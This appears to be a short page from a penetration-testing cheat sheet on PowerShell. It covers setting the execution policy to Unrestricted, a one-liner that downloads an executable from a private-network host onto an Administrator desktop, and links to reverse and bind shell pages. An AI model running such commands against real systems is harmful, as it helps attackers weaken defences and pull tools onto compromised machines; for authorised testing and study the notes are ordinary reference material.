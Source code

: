 # PowerShell

## Enable PowerShell execution policy

* PowerShell maintains an execution policy that determines which type of PowerShell scripts \(if any\) can be run on the system. 
* The default policy is “Restricted”, which effectively means the system will neither load PowerShell configuration files nor run PowerShell scripts.
* To set an “Unrestricted” execution policy on our Windows client machine. Run Windows PowerShell application as Administrator.

```text
PS C:\WINDOWS\system32> Set-ExecutionPolicy Unrestricted
PS C:\WINDOWS\system32> Get-ExecutionPolicy
```

![](https://lh4.googleusercontent.com/5eEcCVnnBLRd4iYiO9ze7W9ow-L_EkITQKx0WQo3mPVeLasOK_lj2QkoU84hf5M4mTVY1ePTk214edOgr2d_EdpcXLwT1fRksnqihgTjFayRaPYbODWJtbKUfuI328_f-a3tL8aa)

## File Transfers

```text
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.119.189/wget.exe','C:\Users\Administrator\Desktop\wget.exe')"
```

Also see:

{% page-ref page="../../collections/file-transfer.md" %}

## Reverse/Bind Shells

See the following:

{% page-ref page="../../collections/reverse-shell/powershell.md" %}

{% page-ref page="../../collections/bind-shell/powershell.md" %}



